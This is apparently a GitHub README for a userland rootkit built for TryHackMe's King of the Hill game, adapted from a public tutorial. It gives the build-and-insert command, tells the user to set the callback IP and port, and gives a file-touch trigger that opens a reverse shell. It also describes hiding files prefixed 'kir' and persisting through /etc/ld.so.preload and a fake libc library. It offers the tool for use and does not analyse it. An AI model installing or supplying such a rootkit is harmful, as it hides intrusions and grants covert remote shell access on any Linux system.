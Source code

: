 <h1> This is a rootkit for playing king of the hill on tryhackme </h1>

This rootkit is based on this tutorial:
<h1> https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/# </h1>

Compile and insert the rootkit by running:
<pre> bash make.sh </pre>
(Remember you need to change the port and ip address in the script)

<h1> Get a reverse shell with: </h1>
<pre> touch __UNO & ls & rm __UNO </pre>

hide files:
<pre> everything beginning wit "kir" gets hidden </pre>

The files:
<pre>
/root/king.txt
/etc/ld.so.preload
/lib/libc.kir.so.6
</pre>
will be immutable in the future
